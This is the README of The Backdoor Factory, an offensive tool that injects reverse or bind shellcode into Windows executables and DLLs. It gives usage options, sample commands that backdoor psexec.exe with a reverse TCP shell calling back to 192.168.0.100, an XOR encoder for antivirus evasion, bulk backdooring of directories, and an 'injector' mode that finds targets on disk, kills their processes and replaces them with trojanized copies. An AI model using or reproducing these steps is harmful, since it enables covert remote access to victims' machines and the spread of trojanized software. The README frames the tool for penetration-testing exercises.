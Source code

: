 ##The Backdoor Factory
Backdoors win32 PE files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all PE files.  It is advisable that you test target PE files before deploying them to clients or using them in exercises.

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit

  -f FILE, --file=FILE  File to backdoor
  
  -i HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -p PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all
                        the code caves of a specific size. The -l flag can be
                        use with this setting.
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -v, --verbose         For debug information output.
  
  -e ENCODER, --encoder=ENCODER
                        Encoders that can help with AV evasion.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -j, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery


---
Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

-List all codecaves in the exe/dll

-Select the codecave in the exe/dll to backdoor, thereby not changing the filesize.

-Includes a simple XOR shellcode encoder.

---------------------------------------------
Sample Usage:

#Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -e xor_encode 

The following caves can be used to inject code and possibly continue execution
use a number greater than the highest reference to add a code cave to the executable/dll
versus using an existing code cave.. Good luck:

1 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8 Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x2f578 End: 0x2f708; Cave Size: 400

10 Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

Enter your selection: 2

Using selection: 2

psexec.exe backdooring complete

File bd.psexec.exe is in current directory


---

#Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -e xor_encode

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
#Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
#Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -j -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a -u .moocowwow 
